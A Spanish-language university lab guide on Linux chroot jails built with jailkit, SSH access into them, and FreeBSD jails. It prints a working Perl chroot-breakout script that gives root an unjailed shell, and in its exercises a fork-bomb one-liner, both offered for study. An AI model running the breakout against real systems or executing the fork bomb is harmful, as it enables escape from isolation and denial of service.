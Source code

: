 ### Introducción a contenedores en Linux
Universidad ICESI  
Curso: Sistemas Operativos  
Docente: Daniel Barragán C.  
Tema: Introducción al aislamiento de procesos (chroot y jaulas BSD)
Correo: daniel.barragan at correo.icesi.edu.co

### Objetivos
* Conocer los fundamentos de las tecnologías de contenedores tipo LXC y LXD en Linux
* Crear entornos aislados para la ejecución de procesos a nivel del sistema operativo

### Introducción
En esta guía se introducen conceptos acerca de la tecnología de contenedores virtuales y sus fundamentos. Además se presentan
ejemplos a través de los cuales se podrá experimentar con cada una de dichas tecnologías. La información presentada es resultado de la recopilación de distintas fuentes de información, las referencias se presentan al final de la guía.

### Desarrollo

#### Chroot
**chroot** en los sistemas operativos derivados de Unix, es una operación que invoca un proceso, cambiando para este y sus hijos el directorio raíz del sistema. El sistema chroot fue introducido por Bill Joy el 18 de marzo de 1982.

La creación de un ambiente aislado con **chroot** implica varios pasos. En esta guía se empleará la herramienta jailkit que automatiza varios de los pasos para crear entornos **chroot**

Es posible instalar el rpm de jailkit directamente, sin embargo a continuación se presentan los pasos para la instalación desde las fuentes

```console
yum install gcc make openssh-server wget bzip2 -y
cd /tmp
wget http://repo.iotti.biz/CentOS/7/srpms/jailkit-2.17-1.el7.lux.1.src.rpm
rpm2cpio jailkit-2.17-1.el7.lux.1.src.rpm | cpio -idmv
tar xvf jailkit-2.17.tar.bz2
cd jailkit-2.17/
./configure
make
make install
```

Configurar un chroot para un nuevo usuario (TODO: cambiar /home/jail/ por /opt/jails/alice )
```console
adduser alice
mkdir /home/jail
chown root:root /home/jail
jk_init -v -j /home/jail basicshell editors extendedshell netutils ssh sftp scp jk_lsh
jk_jailuser -m -j /home/jail alice
mkdir /home/jail/tmp
chmod a+rwx /home/jail/tmp
```

Editar el archivo de passwords (TODO: cambiar /home/jail/ por /opt/jails/alice )
```console
vi /home/jail/etc/passwd
```
```console
root:x:0:0:root:/root:/bin/bash
alice:x:DONOTMODIFY:DONOTMODIFY::/home/alice:/bin/bash
```

Copiar el binario ps a chroot (TODO: cambiar /home/jail/ por /opt/jails/alice )
```console
sudo jk_cp /home/jail/ /bin/ps
sudo jk_cp /home/jail/ /usr/bin/expr
mkdir /home/jail/proc
mount -t proc proc /home/jail/proc
```

#### Usando chroot

Edite el archivo de configuración ssh para permitir conexiones remotas en la máquina donde creo el chroot
```console
vi /etc/ssh/sshd_config
```
```console
# To disable tunneled clear text passwords, change to no here!
PasswordAuthentication yes
#PermitEmptyPasswords no
#PasswordAuthentication no
```

Reinicie el servicio de ssh
```console
systemctl start sshd
systemctl enable sshd
systemctl status sshd
```

Realice una conexión remota como el usuario alice, puede tambien hacerlo desde afuera de la máquina
```console
ssh alice@127.0.0.1
```

Una vez haya accedido con ssh, observe los archivos y directorios en la raíz
```
$ cd /
$ ls -al
```

**Nota**: Los entornos **chroot** no deben ser diseñados para aislar al usuario root.

#### Escapando de chroot

A continuación se demuestra como el usuario root puede **escapar** del ambiente aislado chroot.

Existen versiones de esta prueba en lenguaje C, para lo cual se requiere que en el entorno chroot se haya instalado
el compilador de C. Esta versión usa el lenguaje perl, por tanto se requiere que la **victima** al haber creado el entorno de chroot, haya realizado la instalación de perl.

Ejecute el siguiente comando para simular que se cuenta con el compilador de perl en el ambiente chroot
```
# jk_init -v -j /home/jail perl
```

Ingrese al ambiente chroot como root ejecutando el siguiente comando

```
# chroot /home/jail
```

Verifique que se encuentra dentro del entorno de chroot listando los archivos en el directorio raíz
```
# ls /
```

Por medio de un editor de texto escriba el siguiente script
```
vi prisionbreak.pl
```
```
#!/usr/bin/perl -w
use strict;
# unchroot.pl Dec 2007
# http://pentestmonkey.net/blog/chroot-breakout-perl

# This script may be used for legal purposes only.

# Go to the root of the jail
chdir "/";

# Open filehandle to root of jail
opendir JAILROOT, "." or die "ERROR: Couldn't get file handle to root of jailn";

# Create a subdir, move into it
mkdir "mysubdir";
chdir "mysubdir";

# Lock ourselves in a new jail
chroot ".";

# Use our filehandle to get back to the root of the old jail
chdir(*JAILROOT);

# Get to the real root
while ((stat("."))[0] != (stat(".."))[0] or (stat("."))[1] != (stat(".."))[1]) {
        chdir "..";
}

# Lock ourselves in real root - so we're not really in a jail at all now
chroot ".";

# Start an un-jailed shell
system("/bin/sh");
```

Ejecute el script, y posteriormente vuelva a listar los archivos del directorio raíz
```
# ./prisionbreak.pl
# ls
```

**Nota**: Por favor no ser un script kiddie http://www.urbandictionary.com/define.php?term=script%20kiddie

#### FreeBSD Jails
FreeBSD es un sistema operativo open-source y descendiente directo de BSD (Berkeley Software Distribution). La primera versión fue liberada en 1993 y hoy en día es un sistema operativo ampliamente usada alrededor del mundo. La diferencia principal con Linux, es que FreeBSD es un sistema operativo completo (kernel, drivers de dispositivos, utilidades y documentación). Además la licencia que usa es la BSD license que permite modificaciones en el código fuente sin la obligación de liberar los cambios.

Las jaulas son un mecanismo de seguridad y una implementación para dar soporte a la virtualización. Es una mejora al método tradicional de chroot que aparece en la versión 4 de FreeBSD. Un proceso que se ejecuta en una jaula no puede acceder a recursos
por fuera de ella. Cada jaula tiene su propio hostname y dirección IP. Es posible ejecutar varias jaulas a la vez pero estas se ejecutan sobre el mismo kernel, por tanto solo se pueden ejecutar en ellas software soportado por el kernel de FreeBSD.

### Actividades

* Investigue en que consiste una bomba fork y como prevenirla usando las herramientas vistas en esta guía.

**Nota:** NO ejecute este comando en una consola hasta investigar primero que hace
```
# :(){ :|: & };:
```

### Referencias
http://linuxpitstop.com/chroot-ssh-users-on-centos-7/  
http://www.tldp.org/pub/Linux/docs/ldp-archived/system-admin-guide/translations/es/html/ch05s02.html  
https://github.com/torvalds/linux/blob/master/Documentation/admin-guide/devices.txt
http://pentestmonkey.net/blog/chroot-breakout-perl  
https://www.getpagespeed.com/server-setup/jailkit

https://www.freebsd.org/  

